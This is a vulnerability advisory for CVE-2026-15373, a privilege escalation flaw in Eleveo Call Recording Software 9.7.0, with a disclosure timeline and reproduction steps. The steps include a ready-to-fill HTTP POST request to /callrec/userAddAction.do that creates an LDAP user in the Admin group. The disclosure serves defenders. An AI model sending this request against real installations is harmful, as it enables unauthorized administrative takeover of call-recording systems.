



# Eleveo Call Recording Software 9.7.0 userAddAction.do role Improper Authorization

> - https://vuldb.com/vuln/377440
> - https://vuldb.com/submit/797457
> - https://www.cve.org/CVERecord?id=CVE-2026-15373

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 10/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

A Broken Access Control vulnerability exists in /callrec/userAddAction.do endpoint of Eleveo Call Recording 9.7.0 which allows low-privileged authenticated users, even those without “Users and Roles” privilege, to escalate their privileges to Administrator by creating an LDAP user assigned to any group, including the Admin group. The newly created user can then authenticate normally. The backend does not properly enforce role-based access control when the endpoint dispatch action is addGroupLdapUsers, allowing unauthorized LDAP user creation.

## Implications

Privilege escalation of a low-privileged user to administrative privileges. 

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as a low-privilege user with no “**Users and Roles**” privilege


2. Extract JSESSIONID, DWRSESSIONID, and TOKEN



3. Send the following request after filling `<DRWSESSIONID>`, `<JSESSIONID>`, `<TOKEN>`, and `<USERNAME>` with the user tokens and the needed username and password, leaving `roleId` as **1** to assign the Admin group.
```html
POST /callrec/userAddAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=<DRWSESSIONID>; scroolY=0; JSESSIONID=<JSESSIONID>
Content-Length: 299
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/user_add.jsp?viewRoleId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=<TOKEN>&roleId=1&viewRoleId=1&dispatch=addGroupLdapUsers&groupLdapUsers=<USERNAME>&login2=a&password2=&passwordVerify=&firstName=pentest2&lastName=&email=&phoneNumber=&value%28filter_1%29=-1&value%28conj_1%29=END&ldapUser=on
```



4. Confirm the created user by checking the users list from an admin account. The attacker can gain that privileges by creating a user from an AD user whose password the attacker already knows.

